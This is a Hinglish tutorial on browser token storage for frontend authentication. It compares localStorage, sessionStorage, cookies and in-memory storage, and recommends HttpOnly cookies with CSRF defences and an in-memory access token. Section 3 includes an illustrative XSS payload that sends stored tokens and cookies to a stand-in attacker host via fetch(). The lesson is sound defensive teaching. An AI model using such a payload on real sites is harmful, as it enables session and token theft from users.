

# Browser Storage Aur Frontend Auth: Token Kahan Rakhein

> **Connects to**: [[94-jwt-auth-safely-in-production]] (server-side JWT checklist), [[105-why-mainstream-sites-dont-use-jwt-hinglish]] (bade sites opaque session cookie kyun dete hain), [[09-jwt-logout-invalidation]] (stateless token ko invalidate kaise karein) aur [[110-idor-broken-object-level-authorization-hinglish]] (authorization server par hoti hai, UI mein nahi).

## 1. Ye Sawaal Har Full-Stack Interview Mein Aata Hai

*"Login ke baad token kahan store karoge?"*

Backend-heavy banda aksar bolta hai: **"localStorage mein."** Interviewer chup ho jaata hai, aur round wahin thoda neeche chala jaata hai. Problem ye nahi hai ki `localStorage` kaam nahi karta -- karta hai. Problem ye hai ki iska ek specific security trade-off hai, aur expectation ye hai ki aap wo trade-off naam leke bata sako.

Is lesson ke baad aapke paas **ek table, ek asli argument, aur ek pattern** hoga.

## 2. Chaar Jagah, Ek Table

Browser mein token rakhne ki practically chaar jagah hain: `localStorage`, `sessionStorage`, cookie, aur ek simple JS variable (in-memory).

| | `localStorage` | `sessionStorage` | Cookie | In-memory (JS variable) |
|---|---|---|---|---|
| **Capacity** | ~5-10 MB per origin | ~5 MB per tab | ~4 KB per cookie (sab cookies ka header budget bhi limited) | RAM, practically unlimited |
| **Expiry** | kabhi nahi -- manually clear karna padta hai | tab/window band hone par | `Max-Age`/`Expires` se exact control, ya session cookie | next reload par gayab |
| **Requests ke saath auto jaata hai?** | Nahi -- aap khud `Authorization` header lagate ho | Nahi | **Haan** -- matching domain/path par browser khud bhejta hai | Nahi |
| **JS padh sakta hai?** | Haan | Haan | Haan... **lekin `HttpOnly` ho to NAHI** | Haan (usi bundle ke andar se) |
| **Tab close ke baad bachta hai?** | Haan | Nahi | Haan (persistent cookie) | Nahi |
| **Tabs ke beech shared?** | Haan (same origin) | Nahi (per tab) | Haan | Nahi |

Do cheezein is table se turant nikalni chahiye:

1. Cookie hi **ek** aisi jagah hai jo requests ke saath **automatically** jaati hai. Yahi uski superpower hai aur yahi uski CSRF weakness ki jadd bhi hai.
2. Cookie hi **ek** aisi jagah hai jise JavaScript se **chhupa ja sakta hai** (`HttpOnly`). Baaki teeno by definition JS ko visible hain.

## 3. Asli Argument: XSS

Ab decision ka core. Maan lo aapke page par ek XSS bug hai -- ek comment field jo user ka HTML escape nahi karta, ya ek compromised npm dependency, ya ek third-party analytics script jo hack ho gaya. Attacker ka JS **aapke origin par** chal raha hai.

```javascript
// XSS payload -- same origin par chal raha hai, isliye ye sab allowed hai
fetch('https://attacker.example/steal', {
  method: 'POST',
  body: JSON.stringify({
    ls: localStorage.getItem('access_token'),   // mil gaya
    ss: sessionStorage.getItem('access_token'), // ye bhi
    ck: document.cookie,                        // non-HttpOnly cookies
  }),
});
```

`HttpOnly` cookie is list mein **nahi** hai. `document.cookie` use dikhata hi nahi. Attacker us token ki **copy nahi le ja sakta**.

> Key distinction: XSS ke saath attacker **aapke user ki taraf se requests bhej sakta hai** (HttpOnly cookie automatically attach hogi) -- lekin **token exfiltrate nahi kar sakta**. Pehla damage session-length ka hai aur browser tab band hone par ruk jaata hai; dusra damage **portable** hai -- attacker us token ko apne laptop se, apni script se, mahino tak use kar sakta hai (jab tak expiry na ho).

Isi farak ko interview mein bolna hai. "localStorage XSS-vulnerable hai" adhoora statement hai -- XSS ho gaya to har storage hara hua hai. Sahi statement: **`HttpOnly` cookie token ko non-exportable banati hai, `localStorage` use exportable rakhti hai.**

## 4. Standard Jawab: HttpOnly + Secure + SameSite

Isliye default recommendation yahi hai, aur [[94-jwt-auth-safely-in-production]] bhi yahi kehta hai:

```javascript
// Node / Express -- login ke baad
res.cookie('session', sessionId, {
  httpOnly: true,     // JS padh hi nahi sakta -> XSS token chura nahi sakta
  secure: true,       // sirf HTTPS par jaayegi -> network sniffing nahi
  sameSite: 'lax',    // cross-site POST ke saath nahi jaayegi -> CSRF ka 90% khatam
  path: '/',
  maxAge: 14 * 24 * 60 * 60 * 1000,
  // domain: '.myapp.com'  // sirf tab jab subdomains ko bhi chahiye
});
```

Teen flags, teen alag khatre:

| Flag | Kis attack ko rokta hai |
|---|---|
| `HttpOnly` | XSS token theft |
| `Secure` | plain HTTP par cookie leak (MITM, public Wi-Fi) |
| `SameSite=Lax` | CSRF -- cross-site se aaye POST/PUT/DELETE par cookie attach nahi hoti |

Aur dhyaan rakho: cookie mein **kya** hai, ye alag sawaal hai. Opaque session ID ([[105-why-mainstream-sites-dont-use-jwt-hinglish]]) ya JWT -- dono cookie mein ja sakte hain. Storage ka decision aur token-format ka decision **do alag decisions** hain; log inhe mila dete hain.

## 5. Honest Counter-Argument: Cookie Ko CSRF Protection Chahiye

Agar main sirf cookie ki tareef karoon to ye lesson bik gaya. Cookie ki automatic-attachment hi uski kamzori hai:

Attacker `evil.com` par ek form rakhta hai jo `POST https://bank.com/transfer` karta hai. User ka browser `bank.com` ki cookie **khud** attach kar dega, kyunki cookie origin nahi, **site** se bandhi hai. Yahi **CSRF** hai -- attacker ko token padhne ki zarurat hi nahi, wo user ke browser ko **remote control** kar raha hai.

`localStorage` + manual `Authorization` header is attack se structurally safe hai, kyunki header khud lagana padta hai aur attacker ke page ka JS aapka `localStorage` cross-origin padh nahi sakta. **Yahi `localStorage` camp ka asli argument hai** -- "convenient hai" nahi.

Aaj ka practical answer:

- **`SameSite=Lax`** (modern browsers ka default) classic CSRF ka bada hissa khatam kar deta hai: cross-site requests par cookie top-level GET navigation ke saath hi jaati hai, POST ke saath nahi.
- State-change karne wale routes par ek **CSRF token** (double-submit cookie, ya server-side synchronizer token) add karo -- defence in depth. Agar aapka API cross-site use hota hai to `SameSite=None; Secure` lagega, aur phir CSRF token **optional nahi, mandatory** hai.
- `Origin` / `Sec-Fetch-Site` header check karna ek sasta extra layer hai.

| | `localStorage` + header | `HttpOnly` cookie |
|---|---|---|
| XSS token theft | **weak** -- token exportable | **strong** -- token non-exportable |
| CSRF | **safe by design** | extra kaam chahiye (`SameSite`, CSRF token) |
| Cross-origin API | easy | `SameSite=None` + CORS credentials ([[07-cors-error-fix]]) |
| Mobile app / third-party client | natural fit | awkward |

> Senior framing: **XSS aur CSRF, dono se bachna hai. XSS ka blast radius bada hai (code execution), CSRF ka chhota aur well-understood hai (ek flag + ek token). Isliye default cookie hai, aur CSRF ko explicitly handle karo.**

## 6. "Hum Token Ko Encrypt Karke localStorage Mein Rakhte Hain"

Ye line aksar sunne ko milti hai, aur ye **security theatre** hai.

Sochiye: decrypt karne ki key kahan hai? Aapke **JS bundle mein**. Wahi bundle jo attacker ke XSS ko bhi available hai -- usi origin par, usi window mein. Attacker ko key dhoondhne ki zarurat bhi nahi, wo seedha aapka hi decrypt function call kar lega:

```javascript
// Attacker ka code -- aapka hi helper use kar liya
const token = window.__authStore.getDecryptedToken();
```

Encryption tabhi matlab rakhta hai jab key **attacker ki reach se bahar** ho. Browser mein shipped key kabhi bahar nahi hoti. Encoding/encryption/hashing ka ye farak [[92-encoding-encryption-hashing]] mein detail mein hai.

> **One-line rule: browser ek hostile environment hai. Jo bhi aap browser ko bhejte ho -- code, key, config, feature flag -- wo public hai.** Obfuscation effort badhata hai, security nahi deta.

Isi rule se aur teen cheezein nikalti hain:
- `.env` mein `VITE_`/`NEXT_PUBLIC_` prefix wala koi bhi value **public** hai. API secret kabhi wahan nahi.
- Price, discount, role, quantity -- client se aaya sab kuch **untrusted input** hai, server par phir se validate karo ([[147-typescript-at-the-runtime-boundary]]).
- JWT **signed hai, encrypted nahi** -- user apna token jab chahe `jwt.io` par paste karke padh sakta hai. Payload mein PII mat daalo.

## 7. Best Of Both: Access Token In Memory + Refresh Token In HttpOnly Cookie

Ye aaj ka sabse practical pattern hai, aur yahi [[94-jwt-auth-safely-in-production]] ke do-token model ka browser-side implementation hai:

- **Access token** -> JS variable mein (module scope / React context). Short-lived (10-15 min). Kabhi disk par nahi.
- **Refresh token** -> `HttpOnly; Secure; SameSite` cookie mein, sirf `/auth/refresh` path par scoped.

Kya milta hai:

| Risk | Is pattern mein kya hota hai |
|---|---|
| XSS access token padhta hai | Haan padh sakta hai, par wo **15 min** mein mar jaayega |
| XSS refresh token churata hai | **Nahi** -- `HttpOnly` hai, long-lived secret safe hai |
| Tab reload | Access token gaya; page load par ek silent `/auth/refresh` call naya le aata hai |
| CSRF | Sirf **ek** endpoint (`/auth/refresh`) cookie-based hai -- usi ek par CSRF defence lagao, poore API par nahi |
| Logout | Server refresh token delete karta hai -> refresh chain toot gayi ([[09-jwt-logout-invalidation]]) |

Trade-off honestly bolo: ye **XSS ko solve nahi karta**, uska **blast radius chhota** karta hai. XSS ka asli fix hamesha input escaping, React ka default escaping (`dangerouslySetInnerHTML` se door raho), aur ek sakht **CSP** hai.

## 8. Code: In-Memory Token + Silent Refresh

```typescript
// authStore.ts -- access token module scope mein, disk par kahin nahi
let accessToken: string | null = null;

export const setAccessToken = (t: string | null) => { accessToken = t; };
export const getAccessToken = () => accessToken;

// Ek hi refresh chale, chaahe 10 requests saath mein 401 khaayein (single-flight)
let refreshing: Promise<string | null> | null = null;

async function refresh(): Promise<string | null> {
  refreshing ??= (async () => {
    try {
      // credentials: 'include' -> HttpOnly refresh cookie saath jaayegi
      const res = await fetch('/auth/refresh', { method: 'POST', credentials: 'include' });
      if (!res.ok) return null;
      const { accessToken: fresh } = (await res.json()) as { accessToken: string };
      setAccessToken(fresh);
      return fresh;
    } finally {
      refreshing = null;   // agli baar fresh attempt
    }
  })();
  return refreshing;
}

export async function api(path: string, init: RequestInit = {}): Promise<Response> {
  const call = (token: string | null) =>
    fetch(path, {
      ...init,
      credentials: 'include',
      headers: {
        ...init.headers,
        ...(token ? { Authorization: `Bearer ${token}` } : {}),
      },
    });

  let res = await call(accessToken);
  if (res.status !== 401) return res;

  const fresh = await refresh();
  if (!fresh) { setAccessToken(null); location.assign('/login'); return res; }
  return call(fresh);   // ek hi retry -- warna infinite loop ban jaayega
}
```

Teen lines jo interview mein point dilati hain:

- `refreshing ??=` -- **single-flight**. Iske bina ek page load par 8 parallel calls 401 khaake 8 refresh bhejengi, aur agar refresh rotation ([[94-jwt-auth-safely-in-production]]) on hai to 7 fail hongi aur user bahar.
- `credentials: 'include'` -- cross-origin par cookie bhejne ke liye zaroori, aur server ko `Access-Control-Allow-Credentials: true` plus exact origin dena padega ([[07-cors-error-fix]]).
- Sirf **ek** retry. Retry loop ka guard har auth client mein chahiye.

## 9. Flow



## 10. Frontend Kabhi Authorization Enforce Nahi Karta

Ek related galti jo isi lesson mein belong karti hai. Log token decode karke UI se button hata dete hain:

```typescript
{user.role === 'admin' && <DeleteButton />}   // ye UX hai, SECURITY nahi
```

Button chhup gaya. Endpoint khula hai. Attacker ko React se baat karni hi nahi hai -- wo seedha `curl` maarega. Yahi [[110-idor-broken-object-level-authorization-hinglish]] wali kahani hai: ownership aur role ka check **server par, har endpoint par** hona chahiye.

> Frontend role-check **menu** hai, **lock** nahi.

## 11. Common Galtiyan

- **"localStorage galat hai, cookie sahi hai"** -- bina trade-off bataye. Dono ke apne attack surface hain; interviewer trade-off sun raha hai, verdict nahi.
- **Token ko encrypt/obfuscate karke safe maan lena** (section 6).
- **Refresh token `localStorage` mein rakhna** -- long-lived secret ko sabse exposed jagah par rakhna, worst of both worlds.
- **`sessionStorage` ko "secure" samajhna** -- wo sirf scope chhota karta hai (ek tab), XSS se bachata nahi.
- **`Secure` flag bhoolna** kyunki localhost HTTP par kaam kar raha tha -- prod mein cookie plain HTTP par leak hogi.
- **Cookie-based auth par CORS ka `credentials` bhool jaana** aur phir 3 ghante "cookie kyun nahi ja rahi" debug karna ([[07-cors-error-fix]]).
- **Mobile app mein cookie forcing** -- native clients ke liye platform secure storage (Keychain / EncryptedSharedPreferences) sahi jagah hai.

## 12. Interview Mein Kaise Bolna Hai

*"Browser mein chaar options hain. Decide karne wala factor XSS hai: `localStorage` ya `sessionStorage` ka token kisi bhi same-origin injected script se padha ja sakta hai, yaani attacker uski copy le ja sakta hai. `HttpOnly` cookie JS ko visible hi nahi hoti, to token non-exportable ho jaata hai. Trade-off ye hai ki cookie automatically attach hoti hai, isliye CSRF handle karna padta hai -- `SameSite=Lax` bada hissa cover kar deta hai aur state-changing routes par CSRF token lagta hai. Jo pattern main default karta hoon: access token memory mein, short-lived; refresh token `HttpOnly; Secure; SameSite` cookie mein `/auth/refresh` par scoped, with rotation; page load par silent refresh aur single-flight guard. Aur token ko encrypt karke localStorage mein rakhna theatre hai, kyunki key bhi bundle mein hi jaati hai -- browser ko bheja hua sab kuch public hai."*

## 🧠 Remember

> Browser ek hostile environment hai -- jo bundle mein jaata hai wo public hai, isliye token ko encrypt karna theatre hai. `localStorage` ka token exportable hai, `HttpOnly` cookie ka nahi; isliye default hai access token memory mein + refresh token `HttpOnly; Secure; SameSite` cookie mein, aur CSRF ko explicitly handle karo.

## Quick Self-Test

1. XSS ho gaya -- `HttpOnly` cookie waale app mein attacker **kya kar sakta hai** aur **kya nahi**? Dono batao.
2. `localStorage` + `Authorization` header CSRF se structurally safe kyun hai, aur cookie nahi?
3. "Hum token AES se encrypt karke localStorage mein rakhte hain" -- isme exact flaw kya hai?
4. Access-token-in-memory pattern mein page refresh karne par user logged in kaise rehta hai?
5. Aapne admin button `role === 'admin'` par chhupa diya. Kaunsa attack phir bhi chalega aur asli fix kahan hai?
